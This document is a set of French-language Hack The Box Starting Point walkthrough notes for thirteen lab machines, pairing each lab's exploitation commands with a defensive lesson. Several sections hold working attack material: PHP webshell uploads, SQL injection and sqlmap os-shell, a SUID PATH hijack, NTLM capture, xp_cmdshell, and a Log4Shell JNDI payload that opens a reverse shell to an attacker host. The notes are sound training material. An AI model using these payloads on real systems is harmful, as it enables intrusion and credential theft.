

**Hack The Box**

**Starting Point — Notes de progression**

*Méthodologie complète, commandes et captures d'écran — 13 machines
résolues*

Tier 1 : Meow · Fawn · Dancing · Redeemer · Appointment · Sequel · Oasis
· Responder

Tier 2 : Three · Vaccine · Oopsie · Archetype · Unified

## Résumé des machines

Vue d'ensemble des 11 machines Starting Point résolues, avec le service
et la vulnérabilité principale exploitée pour chacune.

|             |                           |                      |                                     |
|-------------|---------------------------|----------------------|-------------------------------------|
| **Machine** | **Service(s)**            | **Port(s)**          | **Vulnérabilité principale**        |
| Meow        | Telnet                    | 23                   | Root sans mot de passe              |
| Fawn        | FTP                       | 21                   | Login anonyme                       |
| Dancing     | SMB                       | 445                  | Partage public / session nulle      |
| Redeemer    | Redis                     | 6379                 | Pas d'authentification              |
| Appointment | MySQL / Web               | 3306, 80             | Injection SQL                       |
| Sequel      | MySQL                     | 3306                 | Root sans mot de passe              |
| Oasis       | FTP + Web                 | 21, 80               | Fuite de credentials                |
| Responder   | HTTP + WinRM              | 80, 5985             | RFI + capture NTLM                  |
| Three       | HTTP + S3                 | 22, 80               | Bucket S3 sync. webroot             |
| Vaccine     | FTP + Web + PostgreSQL    | 21, 22, 80           | SQLi + sudo vi restreint            |
| Oopsie      | Web (PHP)                 | 22, 80               | Contrôle d'accès + SUID PATH hijack |
| Archetype   | SMB + MSSQL + WinRM (Win) | 445, 1433, 5985      | Credentials en clair + xp_cmdshell  |
| Unified     | UniFi + MongoDB           | 22, 6789, 8080, 8443 | Log4Shell (CVE-2021-44228)          |

## Table des matières

Résumé des machines 2

Machine 1 — MEOW 4

Machine 2 — FAWN 5

Machine 3 — DANCING 6

Machine 4 — REDEEMER 7

Machine 5 — APPOINTMENT 8

Machine 6 — SEQUEL 9

Machine 7 — OASIS 10

Machine 8 — RESPONDER 11

Machine 9 — THREE 12

Machine 10 — VACCINE 14

Machine 11 — OOPSIE 18

Machine 12 — ARCHETYPE 20

Machine 13 — UNIFIED 22

Conclusion générale 24

# Machine 1 — MEOW

**Telnet non sécurisé — Port 23**

## Concept

Comprendre pourquoi un protocole non chiffré (Telnet) combiné à une
mauvaise configuration (compte root sans mot de passe) mène à une
compromission totale et immédiate.

## Méthodologie — commandes complètes

> nmap -sV -sC 10.129.x.x
>
> \# → 23/tcp open telnet
>
> telnet 10.129.x.x
>
> \# login: root
>
> \# password: (aucun mot de passe demandé / accès direct)
>
> cat /root/flag.txt

## Points clés

- Telnet transmet identifiants et données en clair, sans aucun
  chiffrement.

- Un compte root accessible sans mot de passe est une faille de
  configuration critique.

- Toujours tester une connexion basique avant de chercher des
  vulnérabilités complexes.

## Leçon retenue

*Désactiver Telnet au profit de SSH, et ne jamais laisser un compte
administrateur sans authentification.*

# Machine 2 — FAWN

**FTP anonyme — Port 21**

## Concept

Illustrer le risque d'un service FTP autorisant les connexions anonymes
en lecture.

## Méthodologie — commandes complètes

> nmap -sV -sC 10.129.x.x
>
> \# → 21/tcp ftp (vsftpd), Anonymous FTP login allowed
>
> ftp 10.129.x.x
>
> \# Name: anonymous
>
> \# Password: (vide, Entrée)
>
> ls
>
> get flag.txt
>
> exit
>
> cat flag.txt

## Points clés

- Le FTP anonyme permet un accès en lecture sans authentification
  réelle.

- Toujours tester "anonymous" comme identifiant en premier sur un
  service FTP.

## Leçon retenue

*Désactiver l'accès anonyme sur les serveurs FTP de production, ou le
restreindre à un répertoire public strictement contrôlé.*

# Machine 3 — DANCING

**Partages SMB non protégés — Port 445**

## Concept

Découvrir et exploiter une session SMB nulle (sans identifiants) pour
accéder à des partages réseau.

## Méthodologie — commandes complètes

> nmap -sV -sC 10.129.x.x
>
> \# → 445/tcp microsoft-ds
>
> smbclient -L //10.129.x.x/ -N
>
> \# -N : session nulle (sans mot de passe)
>
> \# → liste des partages, ex: WorkShares
>
> smbclient //10.129.x.x/WorkShares -N
>
> ls
>
> get flag.txt
>
> exit
>
> cat flag.txt

## Points clés

- Une session SMB nulle donne accès aux partages mal configurés, sans
  identifiants.

- Toujours énumérer tous les partages disponibles avant de conclure à un
  accès refusé.

## Leçon retenue

*Restreindre l'accès anonyme aux partages SMB et exiger systématiquement
une authentification.*

# Machine 4 — REDEEMER

**Redis sans authentification — Port 6379**

## Concept

Montrer qu'une base de données en mémoire exposée sans mot de passe
donne un accès direct à toutes les données stockées.

## Méthodologie — commandes complètes

> nmap -sV -sC 10.129.x.x
>
> \# → 6379/tcp redis
>
> redis-cli -h 10.129.x.x
>
> KEYS \*
>
> GET flag

## Points clés

- Redis sans mot de passe (requirepass non défini) expose directement
  toutes les clés.

- La commande KEYS \* permet d'énumérer l'intégralité des données
  stockées.

## Leçon retenue

*Toujours activer requirepass sur Redis et restreindre son accès réseau
(bind 127.0.0.1 ou pare-feu strict).*

# Machine 5 — APPOINTMENT

**Injection SQL sur formulaire web — Port 80**

## Concept

Contourner une authentification web via une injection SQL classique dans
le champ nom d'utilisateur.

## Méthodologie — commandes complètes

> nmap -sV -sC 10.129.x.x
>
> \# → 80/tcp http (formulaire de prise de rendez-vous / login)
>
> \# Dans le champ "username" du formulaire :
>
> admin' --
>
> \# Champ "password" : n'importe quelle valeur
>
> \# → authentification contournée, accès à la page confirmant le flag

## Points clés

- Une requête SQL construite par concaténation directe (sans requêtes
  préparées) est vulnérable à l'injection.

- admin' -- commente le reste de la clause WHERE, validant la connexion
  sans connaître le vrai mot de passe.

## Leçon retenue

*Toujours utiliser des requêtes préparées (prepared statements /
requêtes paramétrées) pour empêcher l'injection SQL.*

# Machine 6 — SEQUEL

**MySQL root exposé sans mot de passe — Port 3306**

## Concept

Se connecter directement à un serveur MySQL exposé, sans couche
applicative intermédiaire.

## Méthodologie — commandes complètes

> nmap -sV -sC 10.129.x.x
>
> \# → 3306/tcp mysql
>
> mysql -h 10.129.x.x -u root --ssl=0
>
> \# --ssl=0 : contourne un souci de négociation TLS avec un vieux
> serveur
>
> SHOW DATABASES;
>
> USE \<nom_de_la_base\>;
>
> SHOW TABLES;
>
> SELECT \* FROM config;

## Points clés

- Un compte root MySQL exposé sans mot de passe est une faille critique
  et immédiate.

- --ssl=0 est parfois nécessaire face à des serveurs anciens mal
  configurés côté TLS.

## Leçon retenue

*Ne jamais exposer un service de base de données directement sur un
réseau non maîtrisé, et toujours exiger un mot de passe fort.*

# Machine 7 — OASIS

**Fuite de credentials via FTP → Web — Ports 21, 80**

## Concept

Illustrer comment une fuite d'identifiants sur un service annexe (FTP)
permet de compromettre un service principal (application web).

## Méthodologie — commandes complètes

> nmap -sV -sC 10.129.x.x
>
> \# → 21/tcp ftp, 80/tcp http
>
> ftp 10.129.x.x
>
> \# Name: anonymous / Password: (vide)
>
> \# Téléchargement d'un fichier de configuration contenant des
> identifiants
>
> \# → admin / rKXM59ESxesUFHAd
>
> \# Connexion sur le site web avec ces identifiants
>
> \# → accès à la zone protégée contenant le flag

## Points clés

- Une fuite de credentials via un service secondaire (FTP) compromet
  souvent un service principal (web).

- Toujours croiser les informations trouvées entre les différents
  services ouverts sur une même cible.

## Leçon retenue

*Ne jamais stocker d'identifiants en clair dans des fichiers
accessibles, même sur des services jugés secondaires.*

# Machine 8 — RESPONDER

**RFI → capture NTLM → WinRM (Windows) — Ports 80, 5985**

## Concept

Chaîner une inclusion de fichier distant (RFI) avec la capture de hashs
d'authentification NTLM pour obtenir un accès Windows via WinRM.

## Méthodologie — commandes complètes

> nmap -sV -sC 10.129.x.x
>
> \# → 80/tcp http (IIS), 5985/tcp WinRM
>
> \# Remote File Inclusion (RFI) : un paramètre du site web pointe vers
>
> \# une ressource UNC contrôlée par l'attaquant (ex: \\ton_IP\share)
>
> responder -I tun0
>
> \# La cible tente de s'authentifier auprès de notre partage SMB
>
> \# → capture du hash NetNTLM de l'utilisateur (ex: mike)
>
> \# Craquage du hash (hashcat / john) pour obtenir le mot de passe en
> clair
>
> evil-winrm -i 10.129.x.x -u mike -p '\<mot_de_passe_trouve\>'
>
> type C:\Users\mike\Desktop\flag.txt

## Points clés

- Une RFI force la cible à contacter une ressource distante contrôlée
  par l'attaquant.

- Responder capture les hashs NetNTLM envoyés lors de cette tentative
  d'authentification automatique.

- evil-winrm fournit un shell interactif sur Windows via le protocole
  WinRM.

## Leçon retenue

*Restreindre strictement l'inclusion de fichiers distants côté
applicatif, et désactiver l'authentification NTLM sortante non
nécessaire.*

# Machine 9 — THREE

**Stockage S3-compatible synchronisé au webroot — Ports 22, 80**

## Concept

Un sous-domaine expose un service compatible Amazon S3, synchronisé avec
le webroot Apache : un simple upload de fichier suffit à obtenir
l'exécution de code.

## Méthodologie — commandes complètes

> nmap -sV -sC 10.129.x.x
>
> \# → 22/tcp SSH, 80/tcp Apache + PHP
>
> \# Repérer le domaine (section Contact du site) et l'ajouter à
> /etc/hosts
>
> sudo nano /etc/hosts
>
> \# 10.129.x.x thetoppers.htb
>
> \# Énumération → sous-domaine découvert : s3.thetoppers.htb
>
> \# 10.129.x.x thetoppers.htb s3.thetoppers.htb
>
> sudo apt install awscli
>
> aws configure
>
> \# AWS Access Key ID: test
>
> \# AWS Secret Access Key: test
>
> \# Default region name: us-east-1
>
> \# Default output format: (vide)
>
> aws --endpoint=http://s3.thetoppers.htb s3 ls
>
> \# → bucket "thetoppers.htb" (= webroot Apache)
>
> echo '\<?php system(\$\_GET\["cmd"\]); ?\>' \> shell.php
>
> aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php
> s3://thetoppers.htb/ --acl public-read
>
> curl "http://thetoppers.htb/shell.php?cmd=id"
>
> curl "http://thetoppers.htb/shell.php?cmd=cat+/var/www/flag.txt"

Captures d'écran

*Scan Nmap initial de la machine Three : ports 22 (SSH) et 80 (HTTP)
ouverts.*

*Site "The Toppers" (port 80) affiché à gauche, terminal Nmap à droite.*

## Points clés

- Un service S3-compatible peut être exposé comme sous-domaine plutôt
  que via un port dédié : toujours penser à l'énumération de
  sous-domaines.

- aws configure accepte des identifiants factices quand le endpoint ne
  les valide pas réellement.

- Un bucket synchronisé avec le webroot transforme un simple droit
  d'écriture en exécution de code distante (RCE).

## Leçon retenue

*Ne jamais synchroniser un espace de stockage public avec un répertoire
web exécutable, et toujours restreindre les droits d'écriture sur les
buckets.*

# Machine 10 — VACCINE

**FTP → SQLi PostgreSQL → sudo vi détourné — Ports 21, 22, 80**

## Concept

Backup FTP protégé par mot de passe zip, hash MD5 admin trouvé dans le
code, injection SQL PostgreSQL authentifiée exploitée via sqlmap, puis
détournement d'un droit sudo restreint sur vi (GTFOBins) pour obtenir un
shell root.

## Méthodologie — commandes complètes

> nmap -sC -sV 10.129.x.x
>
> \# → 21/tcp FTP (anonyme), 22/tcp SSH, 80/tcp Apache (MegaCorp Login)
>
> ftp 10.129.x.x
>
> \# Name: anonymous / Password: (Entrée)
>
> get backup.zip
>
> exit
>
> \# Crack du mot de passe du zip
>
> zip2john backup.zip \> backup.hash
>
> john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash
>
> john --show backup.hash
>
> \# → mot de passe : 741852963
>
> unzip backup.zip \# mot de passe : 741852963
>
> cat index.php
>
> \# → md5(\$\_POST\['password'\]) ===
> "2cb42f8734ea607eefed3b70af13bbd3"
>
> \# Hash cracké (outil en ligne / john --format=raw-md5) → qwerty789
>
> \# Login web : admin / qwerty789
>
> \# Récupérer le cookie PHPSESSID (DevTools / Burp)
>
> sqlmap -u "http://10.129.x.x/dashboard.php?search=test" \\
>
> --cookie="PHPSESSID=\<cookie\>" --os-shell
>
> \# DBMS détecté : PostgreSQL → shell obtenu via COPY ... FROM PROGRAM
>
> \# Dans le os-shell : whoami → postgres
>
> \# Récupération du mot de passe DB en clair depuis le code source
>
> sqlmap -u "http://10.129.x.x/dashboard.php?search=test" \\
>
> --cookie="PHPSESSID=\<cookie\>"
> --file-read="/var/www/html/dashboard.php"
>
> \# → pg_connect(... user=postgres password=P@s5w0rd!)
>
> ssh postgres@10.129.x.x \# password: P@s5w0rd!
>
> cat user.txt
>
> sudo -l
>
> \# → (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf (commande
> unique restreinte)
>
> sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
>
> \# À l'ouverture, vi est déjà en mode normal (pas besoin d'Échap) :
>
> :set shell=/bin/sh
>
> :shell
>
> \# → shell root obtenu
>
> whoami \# root
>
> cat /root/root.txt

Captures d'écran

*Page "MegaCorp Car Catalogue" (dashboard.php) avec le champ SEARCH
exploité par sqlmap.*

*Récupération du cookie PHPSESSID dans les DevTools du navigateur.*

*Crackage en ligne du hash MD5 trouvé dans le code source (mot de passe
admin : qwerty789).*

*Ouverture de sudo /bin/vi sur le fichier pg_hba.conf restreint.*

*Tentative de sortie de vi via Échap — confusion initiale entre mode
insertion et mode normal.*

*Les commandes vi tapées par erreur directement dans le texte du fichier
de configuration.*

## Points clés

- Un backup ZIP en accès FTP anonyme est une fuite classique : toujours
  le récupérer et le cracker (fcrackzip ou zip2john + john).

- sqlmap --os-shell exécute chaque commande en "one-shot" via des
  requêtes HTTP : ce n'est pas un terminal interactif, donc sudo -l ou
  vi n'y fonctionnent pas correctement.

- sqlmap --file-read est la bonne option pour récupérer un fichier dont
  le cat direct ne retourne rien via os-shell.

- Une fois des identifiants système valides trouvés, privilégier une
  connexion SSH directe plutôt qu'un reverse shell bricolé : c'est un
  vrai TTY stable, sans souci d'échappement clavier.

- GTFOBins pour vi propose plusieurs méthodes de sortie vers un shell :
  :!/bin/sh, :set shell=/bin/sh puis :shell, ou :read \<fichier\> pour
  charger un contenu directement dans le buffer.

- À l'ouverture de vi, on est déjà en mode normal (commande) : inutile
  d'appuyer sur Échap avant de taper ":", ce qui évite les soucis
  d'émulation de terminal.

## Leçon retenue

*Une chaîne de petites erreurs (backup exposé, hash faible, mot de passe
DB en clair, réutilisation de mot de passe, règle sudo mal choisie)
suffit à donner un accès root complet — d'où l'importance de la défense
en profondeur.*

# Machine 11 — OOPSIE

**Contrôle d'accès cassé + détournement SUID via \$PATH — Ports 22, 80**

## Concept

Chaîne de petites failles web (répertoire caché, contrôle d'accès basé
sur un simple cookie, fuite d'ID) menant à un upload de fichier
arbitraire, puis escalade via un binaire SUID vulnérable au détournement
de \$PATH.

## Méthodologie — commandes complètes

> nmap -sC -sV 10.129.x.x
>
> \# → 22/tcp SSH, 80/tcp Apache (site "MegaCorp Automotive")
>
> \# Spider passif du site avec Burp (proxy 127.0.0.1:8080, Intercept
> désactivé)
>
> \# Target → Site map → découverte de /cdn-cgi/login
>
> \# http://10.129.x.x/cdn-cgi/login → "Login as Guest"
>
> \# Page Uploads visible mais : "This action require super admin
> rights"
>
> \# Fuite d'ID dans l'URL :
>
> \# admin.php?content=accounts&id=1 → révèle l'Access ID admin (ex:
> 34322)
>
> \# DevTools → Storage → Cookies :
>
> \# role: guest → admin
>
> \# user: \<son id\> → 34322
>
> \# Recharger la page Uploads → accès débloqué
>
> echo '\<?php system(\$\_GET\["cmd"\]); ?\>' \> shell.php
>
> \# Upload via le formulaire de la page Uploads
>
> gobuster dir --url http://10.129.x.x/ \\
>
> --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
> -x php
>
> \# → confirme /uploads/
>
> curl "http://10.129.x.x/uploads/shell.php?cmd=id"
>
> \# → uid=33(www-data)
>
> curl
> "http://10.129.x.x/uploads/shell.php?cmd=cat+/var/www/html/cdn-cgi/login/db.php"
>
> \# → mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage')
>
> ssh robert@10.129.x.x \# password: M3g4C0rpUs3r!
>
> cat user.txt
>
> sudo -l \# rien
>
> id \# robert appartient au groupe "bugtracker"
>
> find / -group bugtracker 2\>/dev/null
>
> \# → /usr/bin/bugtracker (SUID root)
>
> ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
>
> \# -rwsr-xr-- root bugtracker → exécuté avec les droits root
>
> \# Le programme appelle "cat" sans chemin absolu → PATH hijack
> possible
>
> cd /tmp
>
> echo '/bin/sh' \> cat
>
> chmod +x cat
>
> export PATH=/tmp:\$PATH
>
> bugtracker
>
> \# Fournir un ID de bug quelconque → déclenche l'appel interne à "cat"
>
> \# → exécute /tmp/cat = /bin/sh → shell ROOT obtenu
>
> whoami \# root
>
> cat /root/root.txt

Captures d'écran

*Modification du cookie de session dans les DevTools : role=admin,
user=34322.*

## Points clés

- Un spider passif (Burp) révèle des chemins jamais liés visiblement sur
  le site — toujours cartographier avant de bruteforcer aveuglément.

- Un contrôle d'accès basé uniquement sur un cookie client est un
  anti-pattern classique : sans revérification côté serveur, modifier le
  cookie suffit à usurper un rôle.

- Une fuite d'ID auto-incrémenté semble mineure isolément, mais devient
  critique combinée à la faille de contrôle d'accès.

- Un webshell simple (system(\$\_GET\['cmd'\])) évite les soucis de
  reverse shell (ports sortants filtrés, timeouts).

- La réutilisation d'un mot de passe (DB → système) est une faille
  fréquente à toujours vérifier après un foothold web.

- Un binaire SUID root appelant un exécutable externe sans chemin absolu
  (cat au lieu de /bin/cat) permet un détournement via \$PATH.

## Leçon retenue

*Aucune des failles individuelles n'est critique en soi. C'est leur
chaînage qui permet de passer d'un visiteur anonyme à un accès root
complet — illustration parfaite du principe de defense in depth.*

# Machine 12 — ARCHETYPE

**MSSQL + xp_cmdshell + credentials réutilisés — Ports 445, 1433, 5985
(Windows)**

## Concept

Première machine Windows de la série. Un partage SMB anonyme expose un
fichier de configuration contenant un mot de passe en clair, permettant
une connexion authentifiée à MSSQL. L'activation de xp_cmdshell donne
l'exécution de commandes, qui révèle à son tour (via l'historique
PowerShell) le mot de passe Administrator, réutilisé pour un accès
complet via WinRM.

## Méthodologie — commandes complètes

> sudo nmap -sC -sV 10.129.x.x
>
> \# → 135 (RPC), 139/445 (SMB), 1433 (MSSQL), 5985 (WinRM)
>
> \# OS: Windows Server 2019, nom NetBIOS: ARCHETYPE
>
> smbclient -L //10.129.x.x/ -N
>
> \# → ADMIN\$, backups (partage non standard), C\$, IPC\$
>
> smbclient //10.129.x.x/backups -N
>
> ls
>
> get prod.dtsConfig
>
> exit
>
> cat prod.dtsConfig
>
> \# → ConnectionString contenant :
>
> \# Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc
>
> impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.x.x
> -windows-auth
>
> EXEC sp_configure 'show advanced options', 1;
>
> RECONFIGURE;
>
> EXEC sp_configure 'xp_cmdshell', 1;
>
> RECONFIGURE;
>
> xp_cmdshell whoami
>
> \# → archetype\sql_svc
>
> xp_cmdshell type C:\Users\sql_svc\Desktop\user.txt
>
> xp_cmdshell type
> C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
>
> \# → net.exe use T: \\Archetype\backups /user:administrator
> MEGACORP_4dm1n!!
>
> \# =\> mot de passe Administrator en clair : MEGACORP_4dm1n!!
>
> evil-winrm -i 10.129.x.x -u administrator -p 'MEGACORP_4dm1n!!'
>
> whoami
>
> \# → archetype\administrator
>
> type C:\Users\Administrator\Desktop\root.txt

## Points clés

- Un partage SMB accessible en session anonyme (-N) peut contenir des
  fichiers de configuration avec des identifiants en clair.

- Les fichiers .dtsConfig (SSIS/SQL Server Integration Services)
  stockent fréquemment des chaînes de connexion avec mot de passe en
  clair.

- impacket-mssqlclient permet une connexion authentifiée à MSSQL
  directement depuis Linux.

- xp_cmdshell est une procédure stockée étendue MSSQL permettant
  d'exécuter des commandes système — désactivée par défaut, réactivable
  avec les droits sysadmin.

- L'historique PowerShell (ConsoleHost_history.txt, via PSReadLine)
  conserve toutes les commandes tapées, y compris les mots de passe
  passés en argument.

- La réutilisation du même mot de passe entre différents
  comptes/services est une faille humaine récurrente.

- WinRM (port 5985) est le pendant Windows de SSH pour l'administration
  à distance ; evil-winrm en est le client offensif de référence.

## Leçon retenue

*La chaîne complète (partage SMB ouvert → fichier de config avec mot de
passe → accès SQL → xp_cmdshell → historique PowerShell → mot de passe
admin) montre que sur Windows, l'énumération de fichiers de
configuration et d'historiques de commandes est aussi cruciale que
l'exploitation technique pure.*

# Machine 13 — UNIFIED

**Log4Shell + MongoDB — Ports 22, 6789, 8080, 8443**

## Concept

Exploitation de la vulnérabilité Log4Shell (CVE-2021-44228) sur UniFi
Network 6.4.54, puis escalade via manipulation de la base MongoDB locale
(port 27117) pour obtenir les identifiants root en clair depuis le
panneau d'administration.

## Méthodologie — commandes complètes

> nmap -sC -sV -p- 10.129.x.x
>
> \# → 22/tcp SSH, 6789/tcp UniFi STUN, 8080/tcp HTTP, 8443/tcp UniFi
> Network (HTTPS)
>
> \# Version détectée via /status : UniFi Network 6.4.54
>
> \# UniFi 6.4.54 est vulnérable à Log4Shell (CVE-2021-44228)
>
> \# Protocole JNDI utilisé : LDAP
>
> \# --- Exploitation Log4Shell ---
>
> \# Sur Kali : listener
>
> nc -lvnp 9001
>
> \# Lancer RogueJNDI (contourne trustURLCodebase désactivé sur Java
> récent)
>
> java -jar RogueJndi-1.1.jar \\
>
> --command "bash -c
> {echo,BASE64_REVERSE_SHELL}\|{base64,-d}\|{bash,-i}" \\
>
> --hostname "10.10.x.x"
>
> \# Surveillance du trafic LDAP pour confirmer la callback
>
> sudo tcpdump -i tun0 port 389 or port 1389 -n
>
> \# Payload injecté dans le champ "remember" du POST /api/login :
>
> curl -k "https://10.129.x.x:8443/api/login" \\
>
> -H "Content-Type: application/json" -X POST \\
>
> -d
> '{"username":"test","password":"test","remember":"\${jndi:ldap://10.10.x.x:1389/o=tomcat}"}'
>
> \# → reverse shell reçu en tant qu'utilisateur "unifi"
>
> \# --- Flag utilisateur ---
>
> cat /home/michael/user.txt
>
> \# → 6ced1a6a89e666c0620cdb10262ba127
>
> \# --- Escalade via MongoDB ---
>
> ps aux \| grep mongod
>
> \# → mongod --port 27117 --dbpath /usr/lib/unifi/data/db
>
> mongo --port 27117
>
> use ace
>
> db.admin.find().forEach(printjson)
>
> \# → utilisateurs (administrator, michael, ...) avec hash SHA-512
> (x_shadow)
>
> \# Générer un nouveau hash (sur Kali)
>
> mkpasswd -m sha-512 Password1234
>
> \# Mettre à jour le hash de administrator dans MongoDB
>
> db.admin.update(
>
> {"\_id": ObjectId("61ce278f46e0fb0012d47ee4")},
>
> {\$set:{"x_shadow":"\$6\$xxxxx\$xxxxxxxx"}}
>
> )
>
> \# --- Accès au panneau UniFi et récupération du mot de passe root ---
>
> \# https://10.129.x.x:8443
>
> \# Username : administrator / Password : Password1234
>
> \# Settings → Site → Device Authentication / SSH Authentication
>
> \# → mot de passe root en clair : NotACrackablePassword4U2022
>
> \# --- Root ---
>
> ssh root@10.129.x.x
>
> \# Password : NotACrackablePassword4U2022
>
> cat /root/root.txt
>
> \# → e50bc93c75b634e4b272d2f771c33681

## Points clés

- Log4Shell (CVE-2021-44228) permet une RCE via injection JNDI (LDAP)
  dans le champ "remember" du login, et non dans le champ username.

- tcpdump sur le port 389/1389 confirme que le callback LDAP a bien eu
  lieu, même quand la réponse HTTP de l'API semble être une erreur.

- Sur les JVM récentes (trustURLCodebase=false par défaut), marshalsec
  seul ne suffit plus : RogueJndi utilise des gadgets de désérialisation
  locaux (ex: o=tomcat) qui n'ont pas besoin de charger une classe
  distante.

- MongoDB embarqué dans UniFi écoute sur le port non standard 27117
  (pas 27017) et n'a pas d'authentification.

- La base MongoDB par défaut s'appelle "ace" ; db.admin.find() énumère
  les utilisateurs et db.admin.update() permet de modifier directement
  le hash x_shadow (SHA-512) d'un compte, sans avoir à le cracker.

- Le panneau d'administration UniFi stocke le mot de passe root SSH en
  clair dans les paramètres du site (Settings → Site → SSH
  Authentication).

- Toujours générer son propre hash SHA-512 (mkpasswd -m sha-512) plutôt
  que de tenter de craquer le hash existant : c'est bien plus rapide
  pour prendre le contrôle d'un compte applicatif.

## Leçon retenue

*Une application de gestion réseau (UniFi) non patchée + une base
MongoDB locale sans authentification + des credentials root stockés en
clair dans le panneau = compromission totale. Toujours patcher Log4j et
ne jamais stocker de mots de passe root en clair dans une interface
web.*

# Conclusion générale

Ce que ces machines enseignent, dans l'ordre

- Toujours commencer par un scan Nmap complet (-sV -sC, éventuellement
  -p-) avant toute hypothèse.

- Tester systématiquement les accès anonymes / par défaut (FTP anonyme,
  SMB null session, Redis sans mot de passe) avant de chercher des
  exploits complexes.

- Les fichiers de configuration (db.php, .env, backups) sont des sources
  fréquentes de fuite d'identifiants réutilisables ailleurs.

- Le contrôle d'accès doit toujours être revérifié côté serveur — jamais
  se fier à un cookie ou un paramètre client.

- Les binaires SUID appelant des commandes externes sans chemin absolu
  sont vulnérables au détournement de \$PATH.

- sqlmap --os-shell n'est pas un terminal interactif : privilégier une
  connexion SSH stable dès que des identifiants valides sont trouvés.

- GTFOBins est une ressource indispensable pour transformer un droit
  sudo restreint en accès root.

- Sur Windows, l'énumération de fichiers de configuration (.dtsConfig,
  web.config) et d'historiques (ConsoleHost_history.txt) remplace
  souvent l'exploitation technique pure.

- Log4Shell (CVE-2021-44228) reste critique des années après sa
  découverte : toujours vérifier les versions de logiciels Java exposés
  et tester les injections JNDI sur tous les champs d'un formulaire, pas
  seulement les plus évidents.

- Une base de données locale sans authentification (MongoDB sur un port
  non standard, par exemple) est une mine d'or après un premier foothold
  applicatif.

*Prochaine étape : Tier 2 avancé (Archetype, Included...) puis passage
aux machines classiques HTB pour consolider ces bases.*
